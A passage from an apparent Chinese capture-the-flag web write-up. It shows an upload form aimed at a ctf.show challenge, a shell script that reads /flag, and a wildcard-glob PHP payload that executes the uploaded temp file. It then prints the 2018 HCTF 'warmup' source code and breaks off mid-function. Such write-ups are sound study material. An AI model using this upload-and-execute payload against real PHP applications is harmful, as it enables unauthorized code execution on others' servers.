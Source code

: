 ```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show/" method="post" enctype="multipart/form-data">

    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html> 
```

写脚本：

```
#!/bin/sh
cat /flag 
```

构造poc：

```
?code=?><?=`. /???/????????[?-[]`;?> 
```

## 2018-HCTF-Web-warmup

访问source.php

```
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
```